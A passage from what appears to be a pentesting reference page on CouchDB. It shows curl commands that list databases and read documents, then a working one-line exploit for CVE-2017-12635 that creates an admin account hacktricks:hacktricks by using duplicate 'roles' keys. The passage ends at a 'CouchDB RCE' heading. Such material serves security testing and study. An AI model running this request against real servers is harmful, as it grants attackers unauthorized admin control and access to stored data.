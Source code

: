 ### **Document List**

List each entry inside a database

```bash
curl -X GET http://IP:5984/{dbname}/_all_docs
curl http://localhost:5984/simpsons/_all_docs
#Example response:
{"total_rows":7,"offset":0,"rows":[
{"id":"f0042ac3dc4951b51f056467a1000dd9","key":"f0042ac3dc4951b51f056467a1000dd9","value":{"rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329"}},
{"id":"f53679a526a868d44172c83a61000d86","key":"f53679a526a868d44172c83a61000d86","value":{"rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e"}},
{"id":"f53679a526a868d44172c83a6100183d","key":"f53679a526a868d44172c83a6100183d","value":{"rev":"1-e522ebc6aca87013a89dd4b37b762bd3"}},
{"id":"f53679a526a868d44172c83a61002980","key":"f53679a526a868d44172c83a61002980","value":{"rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc"}},
{"id":"f53679a526a868d44172c83a61003068","key":"f53679a526a868d44172c83a61003068","value":{"rev":"1-3d2f7da6bd52442e4598f25cc2e84540"}},
{"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"}},
{"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"}}
]}
```

### **Read Document**

Read the content of a document inside a database:

```bash
curl -X GET http://IP:5984/{dbname}/{id}
curl http://localhost:5984/simpsons/f0042ac3dc4951b51f056467a1000dd9
#Example response:
{"_id":"f0042ac3dc4951b51f056467a1000dd9","_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}
```

## CouchDB Privilege Escalation [CVE-2017-12635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-12635)

Thanks to the differences between Erlang and JavaScript JSON parsers you could **create an admin user** with credentials `hacktricks:hacktricks` with the following request:

```bash
curl -X PUT -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}' localhost:5984/_users/org.couchdb.user:hacktricks -H "Content-Type:application/json"
```

[**More information about this vuln here**](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html).

## CouchDB RCE
